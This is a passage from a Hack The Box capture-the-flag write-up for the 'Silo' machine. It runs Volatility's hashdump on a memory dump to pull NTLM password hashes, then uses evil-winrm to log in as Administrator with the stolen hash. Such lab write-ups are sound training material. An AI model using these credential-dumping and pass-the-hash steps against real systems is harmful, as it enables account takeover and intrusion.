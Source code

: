 ```bash
WARNING : volatility.debug    : Alignment of WindowsCrashDumpSpace64 is too small, plugins will be extremely slow
WARNING : volatility.debug    : Alignment of WindowsCrashDumpSpace64 is too small, plugins will be extremely slow
          Suggested Profile(s) : Win8SP0x64, Win10x64_17134, Win81U1x64, Win10x64_10240_17770, Win2012R2x64_18340, Win10x64_14393, Win10x64, Win2016x64_14393, Win10x64_16299, Win2012R2x64, Win2012x64, Win8SP1x64_18340, Win10x64_10586, Win8SP1x64, Win10x64_15063 (Instantiated with Win10x64_15063)
                     AS Layer1 : SkipDuplicatesAMD64PagedMemory (Kernel AS)
                     AS Layer2 : WindowsCrashDumpSpace64 (Unnamed AS)
                     AS Layer3 : FileAddressSpace (/root/CTF/HTB/Boxes/Silo/SILO-20180105-221806.dmp)
                      PAE type : No PAE
                           DTB : 0x1a7000L
                          KDBG : 0xf80078520a30L
          Number of Processors : 2
     Image Type (Service Pack) : 0
                KPCR for CPU 0 : 0xfffff8007857b000L
                KPCR for CPU 1 : 0xffffd000207e8000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2018-01-05 22:18:07 UTC+0000
     Image local date and time : 2018-01-05 22:18:07 +0000
```

Here it suggests some more profiles but we know the system is `Microsoft Windows Server 2012 R2`

Now we can just dump the hash using `hashdump` plugin.

```bash
root@kali:~/CTF/HTB/Boxes/Silo# volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump
Volatility Foundation Volatility Framework 2.6
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
```

And we got Administrator hash

I used the hash to login.

```bash
root@kali:~/CTF/HTB/Boxes/Silo# evil-winrm -i 10.10.10.82 -u Administrator -H 9e730375b7cbcebf74ae46481e07b0c7

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
silo\administrator
```

We own the System.

## Privilege Escalation by Token Impersonation
